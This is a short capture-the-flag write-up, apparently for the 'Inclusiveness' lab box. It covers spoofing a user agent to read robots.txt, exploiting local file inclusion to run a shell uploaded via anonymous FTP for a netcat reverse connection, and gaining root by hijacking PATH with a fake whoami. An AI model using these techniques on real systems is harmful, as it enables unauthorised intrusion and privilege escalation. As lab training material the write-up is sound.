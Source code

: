 <h2>Inclusiveness PG</h2>


### NMAP SCAN

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/b0e19282-780e-40e6-bafc-4f3346bf5f8a)

Anonymous ftp is enabled but there's nothing on the server

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/2adfb636-b556-4793-a277-98ffc5535ea1)

let's proceed to port 80 http

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/64b94444-ebca-4d66-b74d-b8d760858d55)

we saw apache default page

so, let's check ``robots.txt``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/881bb90e-c274-41a2-aed6-660bc31fbca8)

we cant view it content from the web wow

we can actually bypass that by modifying useragent and we can use `curl` yeah

``curl -s --user-agent Googlebot http://192.168.204.14/robots.txt -v``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/f2ae9a7e-3909-4304-ad75-1299c2e4b662)

we can see the new endpoint ``/secret_information/``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/363a5a04-fc35-4107-9fee-e347cef80da2)

Note on DNS ZONE TRANSFER and i dont think this box has something to do with that

so clicking on the language hyperlink showed this
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c9f5e123-dbb8-4ec3-9874-2052d2bacb79)

screaming file inclusion lool 

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/d0f09d00-d129-495f-ac3c-8f7d8d016447)
we have lfi fr

recall we can write to the ``/pub`` directory on the ftp server

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/fb4b01c5-8d7e-4426-918e-4f34546d0c71)

so we can put our shell into the directory and load it via the webserver though the ftp path to spawn a reverse connection 

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e17282d4-5cee-43b8-85db-f1bd3e9b0297)

set your netcat and load it the shell

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/075d15dd-6172-4f2e-88a2-5887f4d929fb)

spawn it
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3e5c036a-0702-4411-b65a-2f35cb34ed9d)

### PRIVILEGE ESCALATION

So, find command gave list of programs thats has the SUID bit where I notice /home/tom/rootshell.

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/b45180eb-b46f-4ea7-bfef-0fd429b8ed74)

``Inside /root/tom/ I found rootshell.c file and a compile file rootshell that owns SUID permissions.
According this piece of code if the file is executed as Tom user by calling the function for “whoami” program for validation then you will get a privilege shell else it will print user-ID that is currently logged in will be displayed.``

In simple words the rootshell program give a high privilege shell if the output of whoami program will be “tom”.

You can easily take advantage of this configuration by abusing the PATH system. Here, we built a file as “whoami” in the / tmp directory, and write the following bash code to print “tom”

``cd /tmp``

``echo "printf "tom"" > whoami``

``chmod 777 whoami``


Add a temporary path variable with the help of the following command. you will observe that we had added /tmp as PATH variable.


``export PATH=/tmp:$PATH``

``echo path``

Execute the rootshell

``
cd /home/tom;./rootshell
``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/678f3e03-2613-4d6b-af49-848ee6964bc6)


And we are done.


Thank you.







